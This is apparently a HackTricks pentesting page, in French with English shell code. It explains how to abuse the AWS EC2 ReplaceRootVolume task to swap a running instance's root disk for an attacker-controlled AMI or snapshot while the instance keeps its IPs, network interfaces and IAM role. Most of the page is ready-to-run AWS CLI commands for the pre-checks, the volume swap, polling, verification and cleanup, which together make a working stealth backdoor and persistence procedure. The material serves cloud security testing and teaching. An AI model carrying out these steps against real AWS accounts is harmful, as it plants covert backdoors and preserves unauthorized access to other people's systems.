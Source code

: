 # AWS - EC2 ReplaceRootVolume Task (Stealth Backdoor / Persistence)

{{#include ../../../../banners/hacktricks-training.md}}

Exploiter **ec2:CreateReplaceRootVolumeTask** pour remplacer le volume racine EBS d'une instance en cours d'exécution par un volume restauré depuis une AMI ou un snapshot contrôlé par l'attaquant. L'instance redémarre automatiquement et reprend avec le système de fichiers racine contrôlé par l'attaquant tout en conservant les ENIs, les IP privées/publiques, les volumes non-racine attachés, et les métadonnées de l'instance / le rôle IAM.

## Prérequis
- L'instance cible utilise EBS comme stockage racine et s'exécute dans la même région.
- AMI ou snapshot compatible : même architecture/virtualisation/mode de démarrage (et codes produit, si applicables) que l'instance cible.

## Vérifications préalables
```bash
REGION=us-east-1
INSTANCE_ID=<victim instance>

# Ensure EBS-backed
aws ec2 describe-instances   --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceType' --output text

# Capture current network and root volume
ROOT_DEV=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceName' --output text)
ORIG_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)
PRI_IP=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].PrivateIpAddress' --output text)
ENI_ID=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].NetworkInterfaces[0].NetworkInterfaceId' --output text)
```
## Remplacer le volume racine depuis une AMI (préféré)
```bash
IMAGE_ID=<attacker-controlled compatible AMI>

# Start task
TASK_ID=$(aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --image-id $IMAGE_ID   --query 'ReplaceRootVolumeTaskId' --output text)

# Poll until state == succeeded
while true; do
STATE=$(aws ec2 describe-replace-root-volume-tasks --region $REGION     --replace-root-volume-task-ids $TASK_ID     --query 'ReplaceRootVolumeTasks[0].TaskState' --output text)
echo "$STATE"; [ "$STATE" = "succeeded" ] && break; [ "$STATE" = "failed" ] && exit 1; sleep 10;
done
```
Alternative — en utilisant un snapshot:
```bash
SNAPSHOT_ID=<snapshot with bootable root FS compatible with the instance>
aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAPSHOT_ID
```
## Preuves / Vérification
```bash
# Instance auto-reboots; network identity is preserved
NEW_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)

# Compare before vs after
printf "ENI:%s IP:%s
ORIG_VOL:%s
NEW_VOL:%s
" "$ENI_ID" "$PRI_IP" "$ORIG_VOL" "$NEW_VOL"

# (Optional) Inspect task details and console output
aws ec2 describe-replace-root-volume-tasks --region $REGION   --replace-root-volume-task-ids $TASK_ID --output json
aws ec2 get-console-output --region $REGION --instance-id $INSTANCE_ID --latest --output text
```
Résultat attendu : ENI_ID et PRI_IP restent les mêmes ; l'ID du root volume passe de $ORIG_VOL à $NEW_VOL. Le système démarre avec le système de fichiers provenant de l'AMI/snapshot contrôlée par l'attaquant.

## Remarques
- L'API ne requiert pas que vous arrêtiez manuellement l'instance ; EC2 orchestre un redémarrage.
- Par défaut, le volume EBS racine remplacé (ancien) est détaché et laissé dans le compte (DeleteReplacedRootVolume=false). Cela peut être utilisé pour une restauration ou doit être supprimé pour éviter des coûts.

## Restauration / Nettoyage
```bash
# If the original root volume still exists (e.g., $ORIG_VOL is in state "available"),
# you can create a snapshot and replace again from it:
SNAP=$(aws ec2 create-snapshot --region $REGION --volume-id $ORIG_VOL   --description "Rollback snapshot for $INSTANCE_ID" --query SnapshotId --output text)
aws ec2 wait snapshot-completed --region $REGION --snapshot-ids $SNAP
aws ec2 create-replace-root-volume-task --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAP

# Or simply delete the detached old root volume if not needed:
aws ec2 delete-volume --region $REGION --volume-id $ORIG_VOL
```
{{#include ../../../../banners/hacktricks-training.md}}
